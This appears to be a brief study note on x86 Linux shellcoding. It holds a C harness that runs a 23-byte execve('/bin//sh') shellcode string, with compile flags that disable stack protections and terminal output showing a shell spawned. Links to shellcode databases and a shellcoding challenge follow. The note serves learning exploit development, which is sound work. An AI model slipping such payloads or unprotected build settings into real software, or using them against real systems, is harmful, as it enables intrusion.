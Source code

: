 ```c

char *shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
	fprintf(stdout,"Length: %d\n",strlen(shellcode));
	(*(void(*)()) shellcode)();
	return 0;
}
```
Result
```c
luna@luna-LOL:~/Desktop/pwn/86_ASM$ gcc -z execstack -fno-stack-protector -o sh_test sh_test.c
luna@luna-LOL:~/Desktop/pwn/86_ASM$ ./sh_test
Length: 23
$ id
uid=1000(luna) gid=1000(luna) groups=1000(luna),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Shellcode Database   
http://shell-storm.org/shellcode/


**Reference**
- Shellcoder Handbook
- [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php)
- exploit.courses ( Shellcoding Challenge )
